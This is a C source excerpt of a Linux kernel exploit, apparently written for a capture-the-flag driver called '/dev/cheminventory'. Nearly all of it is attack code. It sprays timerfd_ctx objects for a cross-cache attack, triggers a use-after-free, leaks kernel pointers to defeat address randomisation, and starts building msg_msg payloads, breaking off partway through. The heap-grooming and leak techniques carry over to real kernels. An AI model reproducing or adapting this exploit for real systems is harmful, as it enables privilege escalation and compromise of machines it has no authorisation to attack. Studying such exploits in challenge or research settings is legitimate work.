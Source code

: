 ```c

  puts("[+] starting, enter to continue");
  getchar();

  cheminv = open("/dev/cheminventory", O_RDONLY);
  puts("[+] chemical_head: 0xffffffffc0002640");

  // cross cache attack
  // allocate lots of normal-caches chunks
  puts("[+] spraying timerfd_ctx structs");
  size_t timer_spray = 0x2000;
  size_t timer_fds[timer_spray];
  struct itimerspec its;
  for (int i = 0; i < timer_spray; i++) {
    if (i == 0x1500) {
      // sneak chem inside the timerfd spray so it's nicely hugged
      // after replace chem will become timerfd, but also keeps reference in chem head
      puts("[+] doing uaf");
      chem_insert(0x3, 0x4, 0x30, buf0, buf1);
      chem_replace(0x5, 0x6, 0, 0xffffffffffffffff, buf0, buf1); 
      puts("[+] uaf done");
    }
    timer_fds[i] = timerfd_create(CLOCK_REALTIME, 0);
    its.it_value.tv_sec = 1;
    its.it_value.tv_nsec = 0;
    its.it_interval.tv_sec = 1;
    its.it_interval.tv_nsec = 0;
    timerfd_settime(timer_fds[i], 0, &its, NULL);
  }
  puts("[+] done spraying");

  // free all timerfds
  puts("[+] freeing timerfd_ctx structs");
  for (int i = 0; i < timer_spray; i++) {
    close(timer_fds[i]);
  }
  puts("[+] done freeing");
  sleep(1); // wait for a while to free all timerfds

  // do some leaks from vuln chem
  chem_read(0, buf0, buf1);
  size_t *leak = (size_t *)buf1;

  puts("[+] leaking values");
  size_t kbase = leak[5] - 0x285cc0;
  printf("[+] kbase: %p\n", kbase);
  size_t chemical_head = kbase + 0x3f002640;
  printf("[+] chemical_head: %p\n", chemical_head);
  puts("[+] leaking self (for later linked list)");
  size_t cg256_msgmsg_addr = leak[0];
  printf("[+] cg256_msgmsg_addr: %p\n", cg256_msgmsg_addr);

  // define our msg_msg structs
  struct msgmsg_256 {
    long mtype;
    char mtext[256 - 0x30];
  } msgmsg_256;
  msgmsg_256.mtype = 0x256;
  size_t *payload_256 = (size_t *) msgmsg_256.mtext;
  payload_256[19] = 0x256; // unknown_1
  payload_256[20] = 0x256; // unknown_2
  payload_256[21] = 0x0; // chem idx
  payload_256[22] = 0x0; // fd
```